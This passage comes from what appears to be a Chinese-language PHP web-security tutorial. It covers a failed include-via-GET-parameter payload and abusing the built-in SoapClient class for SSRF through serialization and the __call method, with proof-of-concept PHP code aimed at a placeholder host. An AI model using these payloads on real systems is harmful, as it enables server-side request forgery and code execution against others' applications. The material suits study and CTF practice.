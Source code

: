 虽然最后也是String字符，但是我实验下没有成功。

我也想到一个payload,然后1来传参，但是也没成功

```
$str="?>"<?=include$_GET[1];?>"
```

## SoapClient类来进行SSRF

###  SoapClient类

PHP 的内置类 SoapClient 是一个专门用来访问web服务的类，可以提供一个基于SOAP协议访问Web服务的 PHP 客户端。

类介绍

```php
SoapClient {
	/* 方法 */
	public __construct ( string|null $wsdl , array $options = [] )
	public __call ( string $name , array $args ) : mixed
	public __doRequest ( string $request , string $location , string $action , int $version , bool $oneWay = false ) : string|null
	public __getCookies ( ) : array
	public __getFunctions ( ) : array|null
	public __getLastRequest ( ) : string|null
	public __getLastRequestHeaders ( ) : string|null
	public __getLastResponse ( ) : string|null
	public __getLastResponseHeaders ( ) : string|null
	public __getTypes ( ) : array|null
	public __setCookie ( string $name , string|null $value = null ) : void
	public __setLocation ( string $location = "" ) : string|null
	public __setSoapHeaders ( SoapHeader|array|null $headers = null ) : bool
	public __soapCall ( string $name , array $args , array|null $options = null , SoapHeader|array|null $inputHeaders = null , array &$outputHeaders = null ) : mixed
}
```

该内置类有一个 `__call` 方法，当 `__call` 方法被触发后，它可以发送 HTTP 和 HTTPS 请求。正是这个 `__call` 方法，使得 SoapClient 类可以被我们运用在 SSRF 中。而`__call`触发很简单，就是当对象访问不存在的方法的时候就会触发。

该类的构造函数如下：

```php
PHP
public SoapClient :: SoapClient(mixed $wsdl [，array $options ])
- 第一个参数是用来指明是否是wsdl模式，将该值设为null则表示非wsdl模式。
- 第二个参数为一个数组，如果在wsdl模式下，此参数可选；如果在非wsdl模式下，则必须设置location和uri选项，其中location是要将请求发送到的SOAP服务器的URL，而uri 是SOAP服务的目标命名空间
```

直接利用SoapClient来进行SSRF

构造php

```php
<?php
$a = new SoapClient(null,array('location'=>'http://ip:10000/aaa', 'uri'=>'http://ip:10000'));
$b = serialize($a);
echo $b;
$c = unserialize($b);
$c->a();    // 随便调用对象中不存在的方法, 触发__call方法进行ssrf
?>
```
